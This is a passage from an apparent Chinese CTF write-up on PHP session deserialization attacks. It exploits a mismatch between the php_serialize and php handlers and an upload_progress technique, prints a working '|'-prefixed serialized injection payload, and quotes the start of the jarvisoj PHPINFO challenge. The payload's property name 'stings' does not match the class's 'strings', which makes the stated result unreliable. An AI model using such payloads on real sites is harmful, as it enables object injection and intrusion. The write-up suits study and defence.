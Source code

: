 session2.php

```php
<?php
ini_set("session_serialize_handler","php");
session_start();

class test{
    public $strings="hello";
    function __wakeup(){
        echo "strings is ".$this->strings;
    }
}
```

首先通过访问session1.php写入session，因为session1.php使用的引擎是php_serialize()，所以存储格式为serialize()函数处理的格式，传入一个`|`会被当作普通字符。但是当访问session2.php时，使用的引擎是php，它会将`|`当作键名与值得分隔符，从而产生歧义，导致在解析session文件时对`|`后的值做了反序列化处理。

攻击payload生成:

```php
<?php
class test{
    public $stings="pwn";
}
echo serialize(new test());
```

输出：

>  O:4:"test":1:{s:6:"stings";s:3:"pwn";} 

最终payload:

> |O:4:"test":1:{s:6:"stings";s:3:"pwn";} 

访问session1.php，可以发现payload被写入session文件里了

![image-20200531190020147](/images/image-20200531190020147.png)

这时访问session2.php，那么php引擎就会将`|`后的当作序列化字符串进行反序列化，页面上就会输出"strings is pwn"。



**利用 upload_process 机制**

如果不能直接控制SESSION值时，可以通过 upload_process 机制来往$_SESSION中写入值。

> 当 session.enabled INI 选项开启时，PHP 能够在每一个文件上传时监测上传进度。 这个信息对上传请求自身并没有什么帮助，但在文件上传时应用可以发送一个POST请求到终端（例如通过XHR）来检查这个状态。
>
> 当一个上传在处理中，同时POST一个与INI中设置的session.upload_progress.name同名变量时，上传进度可以在$_SESSION中获得。 当PHP检测到这种POST请求时，它会在$SESSION中添加一组数据, 索引是session.upload_progress.prefix与 session.upload_progress.name连接在一起的值。

jarvisoj上有道这样的题目：PHPINFO

```php
<?php
//A webshell is wait for you
ini_set('session.serialize_handler', 'php');
session_start();
class OowoO
{
    public $mdzz;
    function __construct()
    {
        $this->mdzz = 'phpinfo();';
    }
    
    function __destruct()
```